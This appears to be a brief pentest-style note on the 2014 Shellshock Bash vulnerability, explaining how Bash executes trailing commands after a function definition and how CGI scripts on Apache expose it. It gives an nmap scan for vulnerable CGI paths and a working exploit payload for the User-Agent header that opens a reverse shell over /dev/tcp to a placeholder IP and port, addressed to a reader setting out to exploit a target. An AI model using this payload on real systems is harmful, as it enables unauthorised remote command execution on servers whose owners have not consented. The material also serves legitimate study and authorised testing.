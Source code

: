#linux #vulnerability 

Shellshock, also known as Bashdoor, is a family of security bugs in the Unix Bash shell, the first of which was disclosed on 24 September 2014. Shellshock could enable an attacker to cause Bash to execute arbitrary commands and gain unauthorized access to many Internet-facing services, such as web servers, that use Bash to process requests.

The Shellshock vulnerability is cause by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: () {:;}; 

In the context of remote exploitation, Apache web servers configure to run CGI scripts or.sh scripts are also vulnerable to this attack.

CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.

***In order to exploit this vulnerability you will need to locate an input vector or scrip***t that allows you to communicate with Bash.

`nmap script --script=http-shellshock --script-args="http-shellshock.uri=/<file>.cgi"`

You can intercept the http request and in the User-Agent put this characters.

``` bash
() {:;}; echo; /bin/bash -c "bash -i>&/dev/tcp/<ip_local>/<port> 0>&1"
```